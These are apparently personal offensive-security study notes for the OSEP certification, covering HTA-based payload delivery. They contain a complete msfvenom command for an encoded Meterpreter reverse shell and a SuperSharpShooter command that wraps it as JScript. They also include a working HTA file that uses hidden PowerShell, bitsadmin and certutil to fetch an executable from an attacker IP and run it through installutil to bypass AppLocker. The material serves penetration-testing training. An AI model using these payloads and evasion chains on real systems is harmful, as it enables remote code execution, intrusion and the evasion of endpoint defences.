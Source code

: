 # HTA
### SuperSharpShooter
https://github.com/SYANiDE-/SuperSharpShooter
The original sharpshooter no longer works. 

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.xxx LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > rawsc.bin`

NOTE: As of now supersharpshooter doesn't work with the --payload of hta. You have to do payload js and the put it in an hta with the script provided.

`./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile ~/OSEP/rawsc.bin --payload js --output test`

Generate HTA python script from @emvee_nl on discord:

generateHTA.py

python3 generateHTA.py --in test.js --out test.hta

OR just paste in the js into the .hta code manually

```
<html>
<head>
<script language="JScript">
**CONTENT OF TEST.JS HERE**
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

## Certutil
I first saw this method on this youtube video:
https://www.youtube.com/watch?v=63eE_DYrmvc


https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/AppLocker%20Bypass%20PowerShell%20Runspace

Compile this but with the correct IP and powershell stuff. Use certutil to encode it
`certutil.exe -encode .\AppLocker.exe enc.txt`

Put enc.txt in the same folder as your ps1 payload.

Then make a cert.hta file with these contents:
(And obviously change the IP address)
```
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob3 http://192.168.45.223/installrev.txt c:\windows\tasks\enc.txt;certutil -decode c:\windows\tasks\enc.txt c:\windows\tasks\b.exe;C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\windows\tasks\b.exe")
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```